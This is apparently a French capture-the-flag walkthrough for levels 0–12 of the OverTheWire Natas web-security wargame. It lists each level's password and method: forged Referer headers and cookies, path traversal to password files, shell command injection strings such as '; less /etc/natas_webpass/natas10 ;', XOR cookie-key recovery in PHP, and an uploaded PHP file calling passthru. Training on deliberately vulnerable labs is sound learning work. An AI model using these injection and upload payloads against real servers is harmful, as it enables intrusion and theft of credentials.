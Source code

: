 # Natas

http://overthewire.org/wargames/natas/

# 0 et 1
<p>
<details>
<summary> Caché</summary>


> natas0:natas0

> natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto

Réponse dans les commentaires

</details></p>


# 2
<p>
<details>
<summary> Caché</summary>


> natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

Réponse dans /files/users.txt (découvert grace au chemin du pixel)

</details></p>


# 3
<p>
<details>
<summary> Caché</summary>


>natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

Réponse dans /s3cr3t/users.txt (découvert grace au robots.txt)

</details></p>


# 4 
<p>
<details>
<summary> Caché</summary>


>natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

*Forger la requête*

Ajouter une entete `Referer: http://natas5.natas.labs.overthewire.org/`

</details></p>


# 5
<p>
<details>
<summary> Caché</summary>


>natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

*Forger la requête*

Dans le cookie, changer `loggedin=1`

</details></p>


# 6
<p>
<details>
<summary> Caché</summary>


>natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

Découvrir le secret dans les sources de /includes/secret.inc

</details></p>


# 7

<p>
<details>
<summary> Caché</summary>


>natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

Le paramètre de requête "page" permet d'ouvrir n'importe quel fichier du serveur. Demander `page=/etc/natas_webpass/natas8`

</details></p>


# 8

<p>
<details>
<summary> Caché</summary>


>natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

Le secret initial se retrouve simplement à partir du secret encodé :
```php
base64_decode(strrev(hex2bin($encodedSecret)));
```

</details></p>


# 9

<p>
<details>
<summary> Caché</summary>


>natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

*Injection de code OS*

Le champ est directement injecté dans la ligne `grep -i $key dictionary.txt`

On peut donc renseigner par exemple `; less /etc/natas_webpass/natas10 ;`

</details></p>


# 10

<p>
<details>
<summary> Caché</summary>


>natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

*Injection de code OS*

Un peu plus fin que le précédent il faut vraiment utiliser la commande grep qui peut prendre plusieurs fichiers en paramètre. Il faut ensuite tester différents caractères jusqu'à en trouver un qui est contenu dans le mot de passe.

On peut donc renseigner par exemple : `c /etc/natas_webpass/natas11 `

</details></p>


# 11

<p>
<details>
<summary> Caché</summary>

>natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

*Forger la requête*

Le cookie par défaut contient l'information suivante :
```json
{"showpassword":"no","bgcolor":"#ffffff"}
``` 

Le stockage est réalisé après un "chiffrement" XOR et un encodage base64.
```
data=ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=
```

La clé du XOR est cachée dans le code. Cependant en utilisant la relation :
```
A XOR B = C <=> A XOR C = B
```
on peut facilement retrouver la clé initiale en calculant :
```php
$key = '{"showpassword":"no","bgcolor":"#ffffff"}';
$text = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=');
$outText = '';
for($i=0;$i<strlen($text);$i++) {
 $outText .= $text[$i] ^ $key[$i % strlen($key)];
}
```
```
> outText = qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
```
On en déduit que la clé du XOR est : `qw8J`

On peut ainsi reprendre le code initial en remettant la clé et à chiffrer :
```json
{"showpassword":"yes","bgcolor":"#ffffff"}
``` 
```php
function xor_encrypt($in) {
 $key = 'qw8J';
 $text = $in;
 $outText = '';
 for($i=0;$i<strlen($text);$i++) {
  $outText .= $text[$i] ^ $key[$i % strlen($key)];
 }
 return $outText;
}
base64_encode(xor_encrypt('{"showpassword":"yes","bgcolor":"#ffffff"}'))
```

Ce qui donne :
```
ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
```

</details></p>


# 12

<p>
<details>
<summary> Caché</summary>

>natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

*Forger la requête*

*Injection de code OS*

Injecter le fichier php en annexe en renseignant comme 'filename' `quelquechose.php` : seule l'extention de ce paramètre est lue et permet de déterminer l'extension du code final.

Le script va ainsi déposer le fichier sur le serveur sous un nom aléatoire mais avec l'extension .php : upload/hmf6ksgvr4.php par exemple. 

L'extension .php va provoquer le déclenchement du moteur php et exécuter le code situé dans le fichier : `passthru("less /etc/natas_webpass/natas13");`

</details>

